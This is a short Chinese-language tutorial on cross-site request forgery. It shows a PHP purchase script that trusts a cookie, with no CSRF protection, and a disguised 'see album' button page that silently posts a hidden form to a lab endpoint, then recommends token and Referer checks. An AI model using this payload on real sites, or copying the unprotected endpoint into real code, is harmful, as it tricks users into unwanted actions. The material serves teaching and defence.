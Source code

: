 ## CSRF

CSRF（Cross-site request forgery跨站请求伪造，也被称为“One Click Attack”或者Session Riding，通常缩写为CSRF或者XSRF，是一种对网站的恶意利用。
其实就是**网站中的一些提交行为，被黑客利用**，**你在访问黑客的网站的时候，进行的操作，会被操作到其他网站上(如：你所使用的网络银行的网站)。**

原理：1、你在一个网站上登录过有cookie信息。2、你再访问别的网站进行操作的时候 ，这个网站向你之前的网站发送请求。

例如：你的代码

```php
<?php
$username = $_COOKIE['username'];
// 换为post了，可以规避黑客直接的提交
$productId = $_POST['pid'];
// 这里进行购买操作
//store_into_database($username, $productId);
?>
<meta charset="utf-8" />
<?php
echo $username . '买入商品：' . $productId;
?>
```

黑客代码如下：

```
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
        <script src="https://ss0.bdstatic.com/5aV1bjqh_Q23odCf/static/superman/js/lib/jquery-1.10.2_d88366fd.js"></script>
    </head>
    <body>
        <button id="clickme">点我看相册</button>
        <script>
            $('#clickme').on('click', function () {
                // 用户再不知情的情况下，提交了表单，服务器这边也会以为是用户提交过来的。
                $('#myform').submit();
            });
        </script>
        <form id="myform" style="display:none;" target="myformer" method="post" action="http://myhost:8082/lab/xsrflab/submit.php">
            <input type="hidden" name="pid" value="1">
        </form>
        <iframe name="myformer" style="display:none;"></iframe>
    </body>
</html>
```

预防这种的办法就是：

1.**增加token验证**.因为cookie发送请求的时候会自动增加上，但是token却不会，这样就避免了攻击

2.**Referer验证**。页面来源的判断